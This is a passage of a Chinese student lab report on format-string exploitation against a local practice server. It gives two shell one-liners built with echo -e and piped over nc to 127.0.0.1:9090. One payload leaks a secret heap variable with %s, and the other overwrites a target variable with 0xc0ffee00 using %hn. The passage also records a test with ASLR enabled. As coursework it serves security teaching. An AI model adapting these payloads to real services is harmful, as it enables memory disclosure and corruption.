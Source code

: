 ![李欣宇-信安1901-U201911658-lab13126](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab13126.png)

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab13128.png" alt="李欣宇-信安1901-U201911658-lab13128" style="zoom:50%;" />

###### 获得 heap 上的 secret 变量的值

​		可以从上述结果中看到，secret addr: 0x08048740，同时可以看到构造的AAAA是从第40个字开始的，构造输入badfile

```shell
echo -e "\x40\x87\x04\x08|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%.8x|%s" > badfile
cat badfile | nc 127.0.0.1 9090
./server
```

![李欣宇-信安1901-U201911658-lab13210](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab13210.png)

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab13212.png" alt="李欣宇-信安1901-U201911658-lab13212" style="zoom:50%;" />

###### 修改target变量为0xc0ffee00

​		这里的构造与prog1中的原理一样，占用的字节是4 * 2 + 4 + 8 * 38 = 316，使用%hn作为参数，从小到大进行计算

​		c0ffh - 316 = 49091

​		ee00h - c0ffh = 11521

​		构造的输入如下：

```shell
echo -e  "\x2e\xa0\x04\x08@@@@\x2c\xa0\x04\x08%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.49091x%hn%.11521x%hn" > badfile
cat badfile | nc 127.0.0.1 9090
./server
```

![李欣宇-信安1901-U201911658-lab13475](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab13475.png)

###### 开启ASLR进行测试

```shell
sudo sysctl -w kernel.randomize_va_space=1
```

​		获得一样的结果

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab13544.png" alt="李欣宇-信安1901-U201911658-lab13544" style="zoom:50%;" />

![0e311218179c71dada1aa8962f1e7e4](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/0e311218179c71dada1aa8962f1e7e4.png)

​		运行两次观察地址变化，会发现secret addr和target addr不会变，只有input addr会变化

<img src="%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/dc6a51353add4a79d3a683831c3931f.png" alt="dc6a51353add4a79d3a683831c3931f" style="zoom:50%;" />
